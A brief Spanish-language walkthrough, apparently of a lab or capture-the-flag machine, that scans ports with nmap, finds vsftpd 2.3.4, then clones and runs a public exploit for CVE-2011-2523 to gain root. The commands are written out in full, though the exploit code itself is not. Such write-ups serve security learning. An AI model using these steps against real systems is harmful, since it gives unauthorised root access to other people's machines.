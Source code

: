 ## Hacemos un nmap para escanear los puertos abiertos de la maquina

```
nmap -p- --open -sS -sC -sV --min-rate 5000 -vvv -n -Pn 172.17.0.2
```

[![nmap.png](https://i.postimg.cc/PqgKQ4R7/nmap.png)](https://postimg.cc/qtG8k80c)
#### vemos un puerto 21 FTP con la version ***vsftpd 2.3.4*** y un puerto 80 la version de ftp es vulnerable asi que buscamos en github y encontramos este proyecto:

```
https://github.com/nobodyatall648/CVE-2011-2523

```
[![vsftpd.png](https://i.postimg.cc/bNRYnYJX/vsftpd.png)](https://postimg.cc/QHHrG31S)
#### copiamos el proyecto con git

```
git clone https://github.com/nobodyatall648/CVE-2011-2523.git
```

[![git.png](https://i.postimg.cc/qMtXM7xL/git.png)](https://postimg.cc/SJhzgk52)
#### una vez copiado lo ejecutamos con:

```
sudo python3 vsftpd_2.3.4_exploit.py 172.17.0.2
```

[![root.png](https://i.postimg.cc/D0nPBVWM/root.png)](https://postimg.cc/hzZmt51L)
#### y somos root

